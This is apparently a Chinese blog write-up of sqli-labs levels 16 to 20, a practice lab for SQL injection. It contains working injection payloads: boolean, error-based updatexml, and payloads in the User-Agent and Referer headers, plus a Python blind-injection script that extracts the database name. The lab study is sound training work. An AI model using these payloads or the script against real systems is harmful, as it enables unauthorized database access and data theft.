 ```yaml
---
layout: post
title: "sqli-labs-第16关->第20关"
subtitle: "sqli-labs-第16关->第20关"
date: 2019-09-03
author: ppbibo
category: security
finished: true
---
```

[TOC]

接着上篇：[传送门](https://6o9.im/security/2019/08/30/sqli-labs-2.html)



## sqli-labs 第16关

先查看源代码

![sqli-labs-16](/static/img/sqli-labs-16.png)



直接闭合掉前面的 **RT：**

```bash
POST：http://192.168.1.102/sqli-labs/Less-16/

uname=a") or 1=1#
```

![sqli-labs-16-1](/static/img/sqli-labs-16-1.png)



输出脚本 **RT**：

```python

import requests

sql_url = "http://192.168.1.102/sqli-labs/Less-16/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1\") or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-16-2](/static/img/sqli-labs-16-2.png)



SQL语句解析

```mysql
1' or ord(mid((select database()),1,1))={}#

select database();  -- 当前数据库名称 "security"
select mid((select database()),1,1);  -- mid() 截断从第一位往后截断一个 "s"
select ord("s");    -- 将 "s" 转换成ascci码 115

print(chr(i))  # 在python中chr方法将 "i" ascci码值转换成对应的字符。
```



## sqli-labs 第17关

先看源代码 **RT:**

![sqli-labs-17](/static/img/sqli-labs-17.png)

![sqli-labs-17-1](/static/img/sqli-labs-17-1.png)



直接使用报错注入 **RT**：

```bash
uname=admin
passwd=1' or (updatexml(1,concat(0x3a,(select database())),1))#
```

![sqli-labs-17-2](/static/img/sqli-labs-17-2.png)



## sqli-labs 第18关

看源码 **RT:**

![sqli-labs-18](/static/img/sqli-labs-18.png)

![sqli-labs-18-1](/static/img/sqli-labs-18-1.png)

上面首先uname 和 passwd 参数都进行严格的校验，进行了账号密码是否正确的判断，正确的话则向 uagents 表下插入上面接收的 `$uagent` / `$IP` / `$uname` 其中 `$uagent` 和 `$IP` 没有做任何的校验，可以直接注入，如图：

```bash
User-Agent: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-18-2](/static/img/sqli-labs-18-2.png)

  

## sqli-labs 第19关

查看源代码

![sqli-labs-19](/static/img/sqli-labs-19.png)

跟上一关是一样的唯一不同的点是 `$uagent` 变量获取的是 HTTP 协议头 `Referer` ，

`$uagent` 和 `$ip` 变量没有进行任何校验，两个都可以注入，这里使用`uagent`参数来示范，（`$ip` 变量获取的是HTTP协议中的 `X-Forwarded-For` 协议头 ）**RT:**

```bash
Referer: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-19-1](/static/img/sqli-labs-19-1.png)



## sqli-labs 第20关

直接查看源代码 **RT:**

![sqli-labs-20](/static/img/sqli-labs-20.png)

发现做了严格的校验，拼接的sql中并没有发现敏感的参数，发现事情没有那么简单

看下图：

![sqli-labs-20-1](/static/img/sqli-labs-20-1.png)



emmmm.... 都懂吧。。。直接上图了。

![sqli-labs-20-2](/static/img/sqli-labs-20-2.png)

![sqli-labs-20-3](/static/img/sqli-labs-20-3.png)

![sqli-labs-20-4](/static/img/sqli-labs-20-4.png)



## 总结

没啥总结的，认真校验任何与sql语句拼接的参数可有效防止SQL注入的产生，回家吃手抓饼去了。😁





------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***